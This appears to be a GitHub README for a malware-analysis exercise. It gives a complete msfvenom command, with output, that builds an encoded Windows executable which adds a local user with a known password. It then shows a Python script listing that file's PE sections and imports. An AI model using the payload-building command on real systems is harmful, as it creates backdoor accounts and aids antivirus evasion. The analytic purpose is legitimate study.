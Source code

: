 # Malware-Analysis

Create Malicious exe file using Metasploit module (msfvenom) that adds a user "testuser321" and password "Test@321". Encode the file using encoder shikata_ga_nai with iteration 10 times as shown below.

root@kali64:~# msfvenom -p windows/adduser user=testuser1 pass=Test@321 -e x86/shikata_ga_nai -i 10 -f exe -o ~/testadd10.exe  
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload  

[-] No arch selected, selecting arch: x86 from the payload  
Found 1 compatible encoders  
Attempting to encode payload with 10 iterations of x86/shikata_ga_nai  
x86/shikata_ga_nai succeeded with size 303 (iteration=0)
x86/shikata_ga_nai succeeded with size 330 (iteration=1)
....
x86/shikata_ga_nai succeeded with size 519 (iteration=8)
x86/shikata_ga_nai succeeded with size 546 (iteration=9)
x86/shikata_ga_nai chosen with final size 546
Payload size: 546 bytes
Final size of exe file: 73802 bytes
Saved as: /root/testadd10.exe
root@kali64:~# 

# Getting Started & Examples
The script will show the sections & its virtual address and IAT of the file as shown below    

root@kali64:~# python pe_test.py testadd10.exe
Sections:.text, Virtual Address:0x1000\
Sections:.rdata, Virtual Address:0xc000\
Sections:.data, Virtual Address:0xd000\
Sections:.rsrc, Virtual Address:0x15000

-------------------------------------------
List of IAT
-------------------------------------------
MSVCRT.dll\
	_iob\
	_except_handler3\
    .....................
	_strdup\
	_strnicmp\
KERNEL32.dll\
	PeekNamedPipe\
	ReadFile\
	WriteFile\
       ....................

